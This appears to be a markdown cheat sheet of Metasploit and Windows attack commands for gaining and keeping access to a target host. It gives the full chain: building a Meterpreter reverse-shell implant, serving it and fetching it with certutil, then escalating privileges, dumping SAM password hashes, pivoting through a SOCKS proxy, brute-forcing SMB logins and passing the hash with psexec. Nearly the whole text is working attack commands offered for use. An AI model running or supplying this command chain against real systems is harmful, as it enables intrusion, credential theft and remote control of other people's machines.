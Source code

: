 # stable access
#### generate implant  
> msfvenom -p windows/x64/meterpreter_reverse_tcp LPORT=443 LHOST=***[OWN IP]*** -f exe -o implant.exe  
#### start c2  
> msfconsole  
> use exploit/multi/handler  
> set payload windows/x64/meterpreter_reverse_tcp  
> set lport 443  
> set lhost ***[OWN IP]***  
> run -j  
#### start webserver for implant download
> python3 -m http.server 80
#### windows LOLBIN basic download of implant
> certutil -urlcache -f http://***[OWN IP]***/implant.exe implant.exe  

# actions on target
#### attempt to get SYSTEM privs
> getsystem  
#### dump SAM
> hashdump
#### set up pivoting
##### in meterpreter session
> arp  
> ipconfig  
> netstat  
> background  
##### from msfconsole
> use post/multi/manage/autoroute  
> set session ***[NUMBER]***  
> set subnet ***[SUBNET]***  
> set netmask ***[NETMASK]***  
> run  
> use auxiliary/server/socks_proxy  
> set srvport 9050  
> set version 4a  
> run  
##### from bash
> proxychains nmap -Pn -p445 ***[TARGET IP]*** --script=smb-enum*  
> proxychains hydra -p password1 -l administrator smb://***[TARGET IP]***  
#### pass-the-hash
##### in meterpreter session
> hashdump  
> *Administrator:500:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef*
> background
##### from msfconsole
> use exploit/windows/smb/psexec  
> set rhosts ***[TARGET IP]***  
> set smbdomain .  
> set smbuser Administrator  
> set smbpass aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef  
> set payload windows/x64/meterpreter/bind_tcp  
> set lhost ***[OWN IP]***  
> run

